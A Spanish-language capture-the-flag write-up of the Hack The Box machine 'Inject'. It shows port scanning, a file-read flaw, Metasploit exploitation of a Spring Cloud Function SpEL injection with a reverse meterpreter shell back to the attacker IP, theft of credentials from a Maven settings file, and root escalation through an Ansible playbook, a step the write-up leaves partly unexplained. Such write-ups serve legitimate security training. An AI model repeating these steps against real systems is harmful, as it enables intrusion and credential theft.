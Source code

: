# Inject HTB

- Ip atacante - 10.10.14.83
- Ip victima - 10.10.11.204

## Nmap

```bash
❯ sudo nmap -Pn -sS -n --min-rate 5000 -p- 10.10.11.204 
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-18 12:40 EDT
Nmap scan report for 10.10.11.204
Host is up (0.11s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
```

Entrando en la pagina, veo un log in y sign up, sin embargo no estan funcionando y recien las estan implementando.

De la misma manera existe un directorio ``/upload`` entrando intente enviar un archivo .php pero no me dejo y me dice que solo puedo enviar imagenes.

Al enviar una imagen de un leon e interceptar el view image con burp veo que puedo ver archivos de la computadora

![](img/inject1.png)

De esta imagen vemos un posible usuario, el cual es phil

Aqui dentro encontramos a frank tambien, viendo los directorios de los usuarios no encontramos nada. Felizmente el listado de los directorios funciona muy bien. Aqui dejo un ejemplo

![](img/inject2.png)
![](img/inject3.png)
![](img/inject4.png)

Buscando esa tecnologia vemos que es vulnerable a RCE https://spring.io/security/cve-2022-22963

## Metasploit

```bash
❯ msfconsole

msf6 > search spring cloud

Matching Modules
================

   #  Name                                                     Disclosure Date  Rank       Check  Description
   -  ----                                                     ---------------  ----       -----  -----------
   0  auxiliary/scanner/http/springcloud_directory_traversal   2020-06-01       normal     No     Directory Traversal in Spring Cloud Config Server
   1  auxiliary/scanner/http/springcloud_traversal             2019-04-17       normal     No     Spring Cloud Config Server Directory Traversal
   2  exploit/multi/http/spring_cloud_function_spel_injection  2022-03-29       excellent  Yes    Spring Cloud Function SpEL Injection
   3  exploit/linux/http/spring_cloud_gateway_rce              2022-01-26       excellent  Yes    Spring Cloud Gateway Remote Code Execution
```

Primero proble con el exploit numero 3 pero no funciono, asi que fui con el numero 2

```bash
msf6 exploit(linux/http/spring_cloud_gateway_rce) > use 2
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp

msf6 exploit(multi/http/spring_cloud_function_spel_injection) > set rhosts 10.10.11.204
rhosts => 10.10.11.204
msf6 exploit(multi/http/spring_cloud_function_spel_injection) > set lhost 10.10.14.83
lhost => 10.10.14.83
msf6 exploit(multi/http/spring_cloud_function_spel_injection) > exploit

[*] Started reverse TCP handler on 10.10.14.83:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Command Stager progress - 100.00% done (823/823 bytes)
[*] Sending stage (3045348 bytes) to 10.10.11.204
[*] Meterpreter session 1 opened (10.10.14.83:4444 -> 10.10.11.204:57008) at 2023-03-18 13:39:03 -0400

meterpreter > shell
Process 36596 created.
Channel 1 created.
id
uid=1000(frank) gid=1000(frank) groups=1000(frank)
python3 -c 'import pty;pty.spawn("/bin/bash")' 
frank@inject:~$ export TERM=xterm SHELL=bash
```
Ya con eso podemos trabajar mejor
Viendo la carpeta de frank vemos que existe un directorio ``.m2``
## Pivoting to Phil

```bash
frank@inject:~$ ls -la
ls -la
total 28
drwxr-xr-x 5 frank frank 4096 Feb  1 18:38 .
drwxr-xr-x 4 root  root  4096 Feb  1 18:38 ..
lrwxrwxrwx 1 root  root     9 Jan 24 13:57 .bash_history -> /dev/null
-rw-r--r-- 1 frank frank 3786 Apr 18  2022 .bashrc
drwx------ 2 frank frank 4096 Feb  1 18:38 .cache
drwxr-xr-x 3 frank frank 4096 Feb  1 18:38 .local
drwx------ 2 frank frank 4096 Feb  1 18:38 .m2
-rw-r--r-- 1 frank frank  807 Feb 25  2020 .profile
frank@inject:~$ cd .m2
cd .m2
frank@inject:~/.m2$ ls
ls
settings.xml
frank@inject:~/.m2$ cat settings.xml
cat settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
                       
      <password>*********ovesto*********</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

Encontramos las credenciales de phil
pivoteamos al usuario phil

```bash
frank@inject:/home/phil$ su phil                      
su phil
Password: *********ovesto*********

phil@inject:~$ id
id
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
```
### user flag

```bash
phil@inject:~$ cat user.txt
cat user.txt
*********************f2191fe6f20
```
## Escalacion de privilegios
```bash
phil@inject:~$ ls -la 
ls -la
total 152
drwxr-xr-x 5 phil phil   4096 Mar 18 18:09 .
drwxr-xr-x 4 root root   4096 Feb  1 18:38 ..
drwxrwxr-x 3 phil phil   4096 Mar 18 17:31 .ansible
lrwxrwxrwx 1 root root      9 Feb  1 07:40 .bash_history -> /dev/null
-rw-r--r-- 1 phil phil   3771 Feb 25  2020 .bashrc
drwx------ 2 phil phil   4096 Feb  1 18:38 .cache
drwx------ 3 phil phil   4096 Mar 18 16:54 .gnupg
-rw-rw-r-- 1 phil phil 115775 Mar  8 17:04 linpeas.sh
-rw-r--r-- 1 phil phil    807 Feb 25  2020 .profile
-rw-rw-r-- 1 phil phil     85 Mar 18 17:40 shell.yml
-rw-r----- 1 root phil     33 Mar 18 13:47 user.txt
```
```bash
phil@inject:~$ cat shell.yml
cat shell.yml
- hosts: localhost
  tasks:
    - name: RShell
      command: sudo bash /tmp/root.sh
```
```bash
phil@inject:~$ bash -p
bash -p
bash-5.0# whoami
whoami
root
```
### root flag
```bash
bash-5.0# cd /root
cd /root
bash-5.0# ls
ls
playbook_1.yml	root.txt
bash-5.0# cat root.txt
cat root.txt
*********************6d54aa59ce9
```